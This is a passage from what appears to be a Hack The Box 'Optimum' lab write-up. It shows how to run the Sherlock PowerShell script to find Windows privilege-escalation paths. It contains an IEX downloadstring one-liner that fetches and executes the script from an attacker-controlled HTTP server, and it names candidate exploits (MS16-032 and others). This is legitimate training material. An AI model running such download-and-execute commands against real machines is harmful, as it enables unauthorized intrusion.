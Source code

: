 ### Sherlock

We can use the Sherlock tool to find possible privesc paths. Although the tool is deprecated in favor of Watson, I still find it much easier to work with, as it's a single PS1 script.

Copy the script to your local directory, and add the below code to the bottom like before, to trigger the function when the script is run.

```
Find-AllVulns
```

We can run the script on the target with `IEX(new-object net.webclient).downloadstring('http://10.10.14.20/Sherlock.ps1')`, which will pull the script from our HTTP server, and execute it.

In the results, we can see the below output. This tells us that the target is likely vulnerable to MS16-032, MS16-135, or MS16-034.

![](/assets/htb-optimum/sherlock_results.png)
